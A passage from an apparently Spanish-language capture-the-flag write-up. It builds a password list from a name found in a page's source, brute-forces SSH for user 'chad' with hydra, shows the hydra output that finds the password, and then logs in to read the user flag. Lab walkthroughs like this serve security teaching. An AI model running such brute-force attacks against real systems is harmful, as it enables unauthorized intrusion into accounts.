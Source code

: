 Vemos que se llama `Maiden's Tower`, pero vamos a dejarlo sin las `'` y un poco mas limpio de estas formas:

> pass.txt

```
MaidensTower
maidenstower
maidentower
tower
maidens
maiden
LeandersTower
leanderstower
leanders
leander
```

Vamos a crearnos un archivo de contraseñas para el usuario `chad` a ver si funciona, ahora probaremos con `hydra` para realizar fuerza bruta.

## Escalate user chad

### Hydra

```shell
hydra -l chad -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-15 03:40:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:1/p:10), ~1 try per task
[DATA] attacking ssh://192.168.1.177:22/
[22][ssh] host: 192.168.1.177   login: chad   password: maidenstower
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-15 03:40:03
```

Veremos que ha funcionado, por lo que vamos a conectarnos por `SSH` de la siguiente forma:

### SSH

```shell
ssh chad@<IP>
```

Metemos como contraseña `maidenstower` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.
